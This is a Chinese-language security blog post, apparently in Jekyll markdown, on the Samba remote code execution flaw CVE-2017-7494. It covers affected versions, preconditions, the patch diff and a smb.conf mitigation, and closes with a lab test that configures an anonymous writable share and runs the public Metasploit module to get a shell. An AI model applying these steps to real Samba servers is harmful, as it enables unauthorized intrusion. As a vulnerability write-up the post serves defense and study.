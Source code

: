 ```yaml
---
layout: post
title: Samba远程代码执行漏洞-CVE-2017-7494
description: "Samba RCE CVE"
tags: [vulnerability,exploit]
image:
  background: triangular.png
---
```


## 0x01 概述

Samba的`is_known_pipename`函数中，pipename路径符号存在漏洞，未过滤 `/` 符号。攻击者连接上一个可写的共享目录，通过上传恶意的链接库文件，并构造一个指向该库文件的管道名，使服务端程序加载并执行它，从而实现远程代码执行。

## 0x02 影响

影响Samba 3.5.0到4.6.4/4.5.10/4.4.14的中间版本。
利用条件：

1. 可访问Samba端口，默认445端口
2. 拥有共享文件写入权限，如：匿名可写等
3. 恶意攻击者需猜解Samba服务端共享目录的物理路径


在Metasploit Exploit Pull Request讨论中，[@hdm](https://github.com/rapid7/metasploit-framework/pull/8450){:target="_blank"}指出，有方法可能不需要猜解Samba共享目录的物理路径：

> Additionally, Mr. Tavis Ormandy suggested a nice way to exploit this without knowing the path using two connections and /proc/self/cwd, which I will try to implement in the near future (this PR if its languishing or the next one).

## 0x03 修复

打补丁[^1]或者升级到Samba 4.6.4/4.5.10/4.4.14任意版本[^2]


4.6.3-4.5.9-4.4.13版本的补丁关键代码如下：

```c
---
bool is_known_pipename(const char *pipename, struct ndr_syntax_id *syntax)
 {
  NTSTATUS status;
 
+ if (strchr(pipename, '/')) {
+   DEBUG(1, ("Refusing open on pipe %s\n", pipename));
+   return false;
+ }
+
  if (lp_disable_spoolss() && strequal(pipename, "spoolss")) {
    DEBUG(10, ("refusing spoolss access\n"));
    return false;
--- 
```


**缓解方案：**

  在smb.conf的[global]板块中添加如下参数并重启Samba服务

{% highlight default %}
[global]
  nt pipe support = no
{% endhighlight %}


## 0x04 Exploit测试
已有用户向Metasploit提交Exploit模块：
[Metasploit Exploit](https://github.com/hdm/metasploit-framework/blob/0520d7cf76f8e5e654cb60f157772200c1b9e230/modules/exploits/linux/samba/is_known_pipename.rb){:target="_blank"}
, [相关PullRequest](https://github.com/rapid7/metasploit-framework/pull/8450){:target="_blank"}

首先安装一个漏洞版本的Samba软件，配置一个匿名可写的共享目录，并重启服务。

{% highlight default %}
vi /etc/samba/smb.conf

[share]
  path=/tmp/share
  writable=yes
  available=yes
  guest ok=yes
  public=yes
  browseable=yes

---
chmod 777 /tmp/share
service smb restart
{% endhighlight %}  

也可以使用网上的Docker镜像做靶场：

```bash
docker pull medicean/vulapps:s_samba_1
docker run -d -p 445:445 -p 139:139 -p 137:137 medicean/vulapps:s_samba_1
```

Exploit利用过程如下：
{% highlight vim %}
use exploit/linux/samba/is_known_pipename
{% endhighlight %}

![options]({{ site.url }}/images/articles/201705/options.png)

{% highlight vim %}
exploit
{% endhighlight %}

![exploit]({{ site.url }}/images/articles/201705/exploit.png)

Exploit获取的默认为nobody权限，如果smb.conf中配置了 `guest account=root`，则可以获得root权限。

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

## 0x05 References

[^1]:https://www.samba.org/samba/history/security.html
[^2]:https://lists.samba.org/archive/samba-announce/2017/000406.html













